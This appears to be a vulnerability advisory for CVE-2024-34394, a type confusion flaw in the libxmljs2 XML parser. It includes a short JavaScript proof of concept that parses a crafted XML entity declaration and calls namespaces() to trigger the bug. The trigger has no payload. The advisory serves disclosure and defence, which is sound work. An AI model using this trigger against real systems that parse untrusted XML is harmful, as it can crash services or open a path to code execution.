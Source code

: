 ```yaml
---
description: CVE-2024-34394, HIGH, libxmljs2 namespaces type confusion RCE
title: libxmljs2 namespaces type confusion RCE
date_published: "2024-05-02"
last_updated: "2024-05-02"
xray_id: JFSA-2024-001034098
vul_id: CVE-2024-34394
cvss: 8.1
severity: high
discovered_by: Uriya Yavnieli
type: vulnerability

---
```


## Summary

libxmljs2 namespaces type confusion RCE

## Component

libxmljs2

## Affected versions

(,)

## Description

libxmljs2 is vulnerable to a type confusion vulnerability when parsing a specially crafted XML while invoking the namespaces() function (which invokes XmlNode::get_local_namespaces()) on a grand-child of a node that refers to an entity. This vulnerability can lead to denial of service and remote code execution.

## PoC

```js
const libxmljs2 = require('libxmljs2');

var d = `<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note
[
<!ENTITY writer PUBLIC "` + "A".repeat(8) + "B".repeat(8) + "C".repeat(8) + "D".repeat(8) + "P".repeat(8) + `" "JFrog Security">
]>
<from>&writer;</from>
`;

t = libxmljs2.parseXml(d)
from = t.get('//from')
c = from.childNodes()[0]
c2 = c.childNodes()[0] //entity_decl
n = c2.namespaces(true) //onlyLocal = true
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[Original Advisory](https://github.com/marudor/libxmljs2/issues/205)

